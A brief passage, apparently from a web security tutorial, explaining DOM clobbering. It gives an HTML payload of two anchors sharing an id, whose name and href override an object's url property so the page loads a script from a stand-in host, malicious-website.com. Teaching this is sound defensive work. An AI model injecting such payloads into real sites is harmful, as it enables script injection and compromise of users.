 ```html
</script>
```
To exploit this vulnerable code, you could inject the following HTML to clobber the someObject reference with an anchor element:
```html
<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>
```
As the two anchors use the same ID, the DOM groups them together in a DOM collection. The DOM clobbering vector then overwrites the someObject reference with this DOM collection. A name attribute is used on the last anchor element in order to clobber the url property of the someObject object, which points to an external script. 